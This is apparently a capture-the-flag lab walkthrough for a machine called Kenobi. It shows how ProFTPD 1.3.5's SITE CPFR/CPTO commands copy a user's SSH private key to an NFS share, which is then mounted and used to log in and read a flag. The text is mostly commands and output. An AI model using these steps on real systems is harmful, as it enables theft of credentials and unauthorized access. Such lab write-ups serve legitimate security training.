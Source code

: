 # Connect to FTP via nc on port 21

```js
telnet 10.10.194.61 21

```

>**now we will copy the ssh id_rsa from /home/kenobi/.ssh/id_rsa to /var/tmp/**

```js
telnet 10.10.194.61 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.194.61]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```
go to folder /mnt

>**sudo mount -t nfs 10.10.23.89:/var /mnt**

```js

💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt cd tmp
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt/tmp ls
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
systemd-private-b168a848f5f4485c97aa4dedc11c7c6e-systemd-timesyncd.service-iAn4C5
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt/tmp chmod 600 id_rsa id_rsa id_rsa  
chmod: changing permissions of 'id_rsa': Read-only file system


```
>**Use id_rsa to connect to ssh**

```js
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt/tmp sudo ssh -i id_rsa kenobi@10.10.23.89
Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

-----
